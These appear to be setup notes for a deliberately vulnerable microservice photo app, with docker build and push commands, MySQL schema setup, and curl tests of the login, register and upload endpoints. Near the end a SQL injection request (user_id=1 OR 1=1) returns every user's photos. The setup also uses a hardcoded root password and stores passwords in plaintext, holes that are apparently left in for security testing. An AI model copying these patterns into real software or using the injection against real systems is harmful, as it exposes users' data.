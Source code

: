 ```
docker build -t usatpath01/vulnerable-photo-app-frontend:latest ./frontend
docker build -t usatpath01/vulnerable-photo-app-api-gateway:latest ./api_gateway
docker build -t usatpath01/vulnerable-photo-app-user-service:latest ./user_service
docker build -t usatpath01/vulnerable-photo-app-photo-service:latest ./photo_service
docker build -t usatpath01/vulnerable-photo-app-notification-service:latest ./notification_service
docker build -t usatpath01/vulnerable-photo-app-recommendation-service:latest ./recommendation_service
docker build -t usatpath01/vulnerable-photo-app-analytics-service:latest ./analytics_service
```
```
docker push usatpath01/vulnerable-photo-app-frontend:latest
docker push usatpath01/vulnerable-photo-app-api-gateway:latest
docker push usatpath01/vulnerable-photo-app-user-service:latest
docker push usatpath01/vulnerable-photo-app-photo-service:latest
docker push usatpath01/vulnerable-photo-app-notification-service:latest
docker push usatpath01/vulnerable-photo-app-recommendation-service:latest
docker push usatpath01/vulnerable-photo-app-analytics-service:latest
```

```
from api container
apk add curl
curl http://user_service:5000/api/v1/users/test-db-connection
```

```
docker exec -it e38172ae10a5 mysql -uroot -pinsecure_password
USE users;
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL,
    email VARCHAR(255) NOT NULL UNIQUE,
    is_admin BOOLEAN DEFAULT FALSE
);
INSERT INTO users (username, password, email) VALUES ('testuser', 'testpassword', 'testuser@example.com');
```

```
docker exec -it e38172ae10a5 mysql -uroot -pinsecure_password
USE photos;
CREATE TABLE IF NOT EXISTS photos (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255) NOT NULL,
    user_id INT NOT NULL,
    upload_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP);

INSERT INTO photos (filename, user_id, upload_date) VALUES ('docker.png', 1, '2001-09-10');

```



# Endpoint
```
curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpassword"}'
{
  "message": "Login successful", 
  "status": "success", 
  "user": {
    "email": "testuser@example.com", 
    "id": 1, 
    "username": "testuser"
  }
}

curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpasswossrd"}'
{
  "message": "Invalid credentials", 
  "status": "error"
}

curl -X POST "http://10.5.20.45:8000/api/users/register"      -H "Content-Type: application/json"      -d '{"username":"newuser", "password":"newpassword", "email":"newuser@example.com"}'
{
  "message": "User registered successfully", 
  "status": "success", 
  "user": {
    "email": "newuser@example.com", 
    "id": 1, 
    "username": "newuser"
  }
}


curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@Docker.png" \
     -F "user_id=1"

{
  "filename": "9e210176-6c49-42c4-8e44-136642a0b275.png", 
  "message": "File uploaded successfully", 
  "status": "success"
}

curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@test.png" \
     -F "user_id=3"

curl -X GET "http://10.5.20.45:8000/photos?user_id=1"
```
curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@Docker.png" \
     -F "user_id=3"
{"filename":"e1d70097-dc14-4ddf-948b-efc113304eac.png","message":"File uploaded successfully","status":"success"}

mysql> select * from photos;
+----+------------------------------------------+---------+---------------------+
| id | filename                                 | user_id | upload_date         |
+----+------------------------------------------+---------+---------------------+
|  1 | docker.png                               |       1 | 2001-09-10 00:00:00 |
|  2 | e1d70097-dc14-4ddf-948b-efc113304eac.png |       2 | 2024-09-20 15:37:39 |
|  3 | b40051e6-de40-42fb-aee5-82646e39f2a8.png |       3 | 2024-09-20 15:39:00 |
+----+------------------------------------------+---------+---------------------+
3 rows in set (0.00 sec)

 curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1"
{
  "photos": [
    [
      1, 
      "docker.png", 
      1, 
      "Mon, 10 Sep 2001 00:00:00 GMT"
    ]
  ], 
  "status": "success"
}


utkalika@utkalika:~/Work/vulnerable-photo-app$ curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1%20OR%201%3D1"
{
  "photos": [
    [
      1, 
      "docker.png", 
      1, 
      "Mon, 10 Sep 2001 00:00:00 GMT"
    ], 
    [
      2, 
      "e1d70097-dc14-4ddf-948b-efc113304eac.png", 
      2, 
      "Fri, 20 Sep 2024 15:37:39 GMT"
    ], 
    [
      3, 
      "b40051e6-de40-42fb-aee5-82646e39f2a8.png", 
      3, 
      "Fri, 20 Sep 2024 15:39:00 GMT"
    ]
  ], 
  "status": "success"
}

```
docker tag usatpath01/vulnerable-photo-app-analytics-service:v1 usatpath01/vulnerable-photo-app-analytics-service:v1
docker tag usatpath01/vulnerable-photo-app-notification-service:v1 usatpath01/vulnerable-photo-app-notification-service:v1
docker tag usatpath01/vulnerable-photo-app-api_gateway:v1 usatpath01/vulnerable-photo-app-api_gateway:v1
docker tag usatpath01/vulnerable-photo-app-frontend-service:v1 usatpath01/vulnerable-photo-app-frontend-service:v1
docker tag usatpath01/vulnerable-photo-app-photo-service:v1 usatpath01/vulnerable-photo-app-photo-service:v1
docker tag usatpath01/vulnerable-photo-app-recommedation-service:v1 usatpath01/vulnerable-photo-app-recommedation-service:v1
docker tag usatpath01/vulnerable-photo-app-user-service:v1 usatpath01/vulnerable-photo-app-user-service:v1
```
```
git push -u origin main
```